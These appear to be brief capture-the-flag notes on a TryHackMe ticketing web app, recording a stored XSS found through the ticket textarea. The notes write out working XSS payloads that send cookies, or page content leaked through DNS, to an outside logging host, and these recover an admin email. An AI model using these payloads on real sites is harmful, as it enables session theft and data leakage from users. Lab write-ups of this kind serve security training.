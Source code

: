start with nmap.

22
80

http

we can login as well as register.

register as test user.

we can raise ticket. got xss by

`test</textarea><script>alert(1)</script>`

test</textarea><script>document.location=“http://13c47917e8afb90f25b6661b128a4858.log.tryhackme.tech/?c=“+document.cookie;</script><textarea>

not success

may be it has some kind of firewall. lets try another method for grabbing cookies. httponly flag is set.

alert(document.getElementById("email").innerHTML)

```
test</textarea><script>document.location="http://13cadefbdfe3bfbdf06feac1dfe2bc93.log.tryhackme.tech/?c="+document.getElementById("email").innerHTML</script></textarea>

```

</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'X');
email = email.replace('.', 'Y');
fetch('http://'+ email + '.13cadefbdfe3bfbdf06feac1dfe2bc93.log.tryhackme.tech');
</script>
<textarea>

adminaccount@itsupport.thm